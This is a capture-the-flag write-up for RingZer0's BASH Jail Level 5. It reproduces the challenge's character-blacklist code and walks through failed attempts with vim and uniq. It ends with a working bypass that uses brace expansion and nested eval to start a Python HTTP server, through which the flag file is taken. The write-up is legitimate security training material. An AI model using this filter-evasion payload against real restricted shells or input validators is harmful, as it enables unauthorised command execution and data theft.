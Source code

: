 # Level 5

The last one was indeed very difficult. But before going into details, let's have a look at the prompt:

```
RingZer0 Team Online CTF

BASH Jail Level 5:
Current user is uid=1004(level5) gid=1004(level5) groups=1004(level5)

Flag is located at /home/level5/flag.txt

Challenge bash code:
-----------------------------

WARNING: this prompt is launched using ./prompt.sh 2>/dev/null

# CHALLENGE

function check_space {
        if [[ $1 == *[bdksctr'?''*''/''<''>''&''$']* ]]
        then 
                return 0
        fi

        return 1
}

while :
do
        echo "Your input:"
        read input
        if check_space "$input" 
        then
                echo -e '\033[0;31mRestricted characters has been used\033[0m'
        else
                output=`$input < /dev/null` &>/dev/null
                echo "Command executed"
        fi
done 

-----------------------------
Your input:
```
So obvisouly a lot of characters are not allowed to be used. This makes the challenge very hard since also redirects (>,<,&) are not possible anymore. So even one has succeeded in reading the file, the OUTPUT has to be redirected to some other device. But the slash (/) is also not allowed, making it hard to specify the output (e.g. /dev/shm/buffer).

Having that in mind I've tried several things:

## Vim
The idea was to start `vim`, **read** the `flag.txt` and write the buffer to sth like `/dev/shm/buffervim`. But `vim` has some problems starting when STDIN=`/dev/null`. At the beginning I saw `vim` starting but then it disapeared suddenly. It took me a file to find out that starting `vim` with STDIN != some tty would be tricky.

## Create another file
Since I was able to read the file easily:

```
$ uniq flag.[a-z][a-z][a-z]
```
... I thought I could create a new file inside `/home/level5/` by using `uniq`:

```
$ uniq flag.[a-z][a-z][a-z] new_file
```
That didn't work and it took some some while to understand **why**. Using `lsattr` I've checked the attributes on `/home/level5`:
```
level1@lxc17-bash-jail:/home/level5$ lsattr -a>&0
----i--------e-- ./.
----i--------e-- ./..
----i--------e-- ./real.sh
lsattr: Permission denied While reading flags on ./flag.txt
----i--------e-- ./prompt.sh
----i--------e-- ./.bash_logout
----i--------e-- ./.bashrc
----i--------e-- ./.profile
level1@lxc17-bash-jail:/home/level5$ 
```
As you can see `/home/level5` is set to **immutable** (i) which means that I can't modify files in that directory or create new ones.

## Use bash magic voodoo
Desperately searching for some solution, I've asked [maxenced](https://ringzer0team.com/profile/8593/maxenced) (who was the last one having solved this level) for some additional hint. BTW: I've "bought" the hint for this hint very early, but it didn't help a lot. Anyway... He told me I should use **bash brace expansions**. Okay, so let's have a look and see what we can do using them:
```
$ echo {a..z}
a b c d e f g h i j k l m n o p q r s t u v w x y z

$ echo {1..10..2}
1 3 5 7 9

$ echo {o..u}ython
oython python qython rython sython tython uython
```
So obvisouly we can **bypass** the restricted characters by simpling iterating through a range of characters. Now the next step was to find a way how to **expand shell commands** (and this was the most imporant part - thx again maxenced). I've tried sth like:

```
$ eval {o..u}ython
bash: oython: command not found
```
`eval` was **not** expanding the commands. Then I've tried sth different:

```
$ `echo echo {o..u}ython\\;`
oython; python; qython; rython; sython; tython; uython;
```
Now let me explain the changes:

* I've added backticks to run the commands
* I've added \; at the end which simply adds a semicolon (;) at the end of each expansion

If I change the `echo` to `eval`, then `eval` will basically run:

```
oython; python; qython; rython; sython; tython; uython;
```
Afterwards I've found out that `python` refused to start if STDIN = `/dev/null` (the same as with `vim`). Then I remembered the solution in a previous level where I've start a **HTTP server** (using `python`) to "download" the flag.txt. So all I wanted to run was:

```
$ python -m SimpleHTTPServer
```
As you may have noticed "SimpleHTTPServer" contains restricted characters like r. So we'll have to use brace expansion again:

```
$ `echo echo {u..o}ython\ -m\ SimpleHTTPSe{u..o}ve{o..u}\\;`
...
```
The next step was to properly escape the backslashes to make sure that eval is executing the right thing. So the final payload was:

```
$ eval eval py{o..u}hon\\ -m\\ SimpleHTTPSe{q..v}ve{q..v}\\; 
```
I would also want to thank David, Ralph and Tobias for their awesome ideas and the great hacking session we had on Friday :)